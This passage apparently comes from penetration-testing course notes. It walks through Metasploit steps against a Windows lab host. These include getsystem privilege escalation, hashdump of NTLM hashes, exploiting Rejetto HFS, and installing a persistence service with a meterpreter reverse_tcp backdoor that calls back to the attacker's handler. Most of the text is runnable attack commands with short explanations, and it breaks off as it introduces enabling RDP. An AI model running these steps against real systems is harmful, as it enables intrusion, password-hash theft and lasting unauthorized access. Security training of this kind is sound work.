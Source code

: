 ```bash
msf6> set session 1
msf6> set lport 4445  # the port 4444 is used by session 1
msf6> set target Windows\ x64
msf6> run

meterpreter> getprivs  # more privileges aquired
meterpreter> getsystem
meterpreter> getuid    # NT AUTHORITY\SYSTEM
meterpreter> hashdump  # Administrator NTLM hash
```

#### Persistence on Windows

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* We can utilize various port exploitation persistence modules to ensure that we always have access to the target system.

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a persistence
msf6> setg rhosts 10.3.24.181
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> run

meterpreter> sysinfo
# CTRL+Z

msf6> search platform:windows persistence
msf6> use exploit/windows/local/persistence_service
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set session 1
msf6> set lport 4445
msf6> run            # Create a backdoor by crafting a background process
meterpreter> getuid  # NT AUTHORITY\SYSTEM
# CTRL+Z

msf6> sessions -K
msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost eth1
msf6> set lport 4445
msf6> run
meterpreter> getuid  # NT AUTHORITY\SYSTEM without exploit !
```

#### Enabling RDP

* RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on the Windows target and consequently utilize RDP to remotely access to the target system.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
